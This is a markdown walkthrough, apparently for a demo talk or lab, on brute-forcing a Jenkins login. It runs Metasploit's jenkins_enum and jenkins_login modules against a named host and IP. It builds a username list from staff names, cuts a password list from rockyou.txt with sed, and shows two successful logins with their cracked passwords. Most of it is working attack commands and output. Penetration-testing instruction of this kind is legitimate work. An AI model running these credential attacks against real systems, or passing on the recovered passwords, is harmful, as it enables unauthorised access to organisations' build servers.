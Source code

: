 # Bruteforce Jenkins Login
This section aims to login to the company's Jenkins instance.
To do so, we'll prepare a list of usernames and check login with rockyou list.
Before login can be bruteforced, the login URL must be identified via BurpSuite.

## Enum Module
Let's get some details of Jenkins

```bash
msfconsole

use auxiliary/scanner/http/jenkins_enum
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set TARGETURI /
exploit
```
We detect that theres a pretty modern version of Jenkins running.
```bash
[+] 34.159.77.191:8080    - Jenkins Version 2.387.3
[*] /script restricted (403)
[*] /view/All/newJob restricted (403)
[*] /asynchPeople/ restricted (403)
[*] /systemInfo restricted (403)
```
There are no easy-to-use exploits available for this version
```bash
searchsploit Jenkins 2.3
```
So there are at least two options left:
* attack the host
* get access to Jenkins

Getting access via Social Engineering or Passwordcracking is the first attempt.

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk/username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Kay Meyer
Robert Bartsch
Ricardo Pope
Jeffrey van der Linden
```

```bash
python3 userlistcreator.py

mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords
It contains 14344392 leaked passwords
Rockyou.txt is a set of compromised passwords from the social media application developer also known as RockYou. It developed widgets for the Myspace application. In December 2009, the company experienced a data breach resulting in the exposure of more than 32 million user accounts. It was mainly because of the company’s policy of storing the passwords in cleartext.

```bash
cd /root/demotalk/jenkinsBrute/
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
```


## Login Scan Module
If we want to access Jenkins as a user, we need to find a bit more information of login options.

#### Get Login URL
There are typically two login-URLs in Jenkins-world
* `/j_acegi_security_check`
* `/j_spring_security_check`
* or something the Administrator configured (like PingAccess or so)

Let's use Burpsuite to find out details.

### Prepare Options
Now that we know how to login, we can use metasploit to brute force login.
The exploit must be configured.

```bash
msfconsole

use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
exploit
```
There will be two successful attempts

```bash
[+] 34.159.77.191:8080 - Login Successful: Robert.Bartsch:!@#$%1234pacr1234!@#$%
[+] 34.159.77.191:8080 - Login Successful: Jeffrey_van_d_Linden:!@#$%67890QAZwsxh
```
